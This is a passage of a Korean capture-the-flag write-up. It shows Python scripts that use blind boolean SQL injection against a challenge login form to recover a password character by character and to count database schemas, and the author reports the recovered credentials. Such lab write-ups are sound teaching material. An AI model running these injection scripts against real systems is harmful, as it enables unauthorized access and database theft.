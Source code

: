   ```python

  ### Get passowrd

  for count in range(1,6):
    for char in chars:
      payload = "' or substr(password,{},1) = '{}'#".format(count, char)
      data = {'username' : payload, 'password' : '1'}

      res = requests.post(url, data = data)
      print(payload)

      if res.text.find('Invalid password') != -1:
        result = result + char
        print(result)
        break

  ```
  
  위 결과로 username : password 값은 kalyn : jesse 인 것을 알 수 있었다.
  로그인 해보니 아래와 같이 Flag 값을 얻을 수 있었다.
  
  ![image](https://user-images.githubusercontent.com/38517436/64120075-41137380-cdd6-11e9-9a19-33b882c76a76.png)

  



# # 1 Flag
  위 sqli 공격에서 username과 password 뿐만 아니라 db 유출도 가능한지 테스트를 해보았다. 몇번의 수동으로 테스트를 해본 결과 DB의 개수가 4개 인 것을 
  알 수 있었다. 그래서 DB의 이름을 가져오기 위해 python code를 작성했다.
  
  ### Get DB name (python code)
  ```python
  # File name: Get_DB_name.py
  # This script gets DB name
  #
  # db list is 'information_schema', 'level2', 'mysql', 'performance_schema'

  import requests
  import string

  chars = string.ascii_lowercase + string.punctuation + string.digits 

  url = 'http://35.190.155.168/87ece3af89/login'
  dbname = list()
  tmp = ''
  dbCount = 0

  def sendPayload(payload):
    data = {'username' : payload, 'password' : '1'}
    res = requests.post(url, data = data)
    print(payload)

    return res.text

  ####################
  ### Get db count ###
  ####################
  for i in range(0,10):
    payload = "' or (select count(distinct(table_schema)) from information_schema.columns) = {}#".format(i)

    if sendPayload(payload).find('Invalid password') != -1:
      dbCount = i
  ```
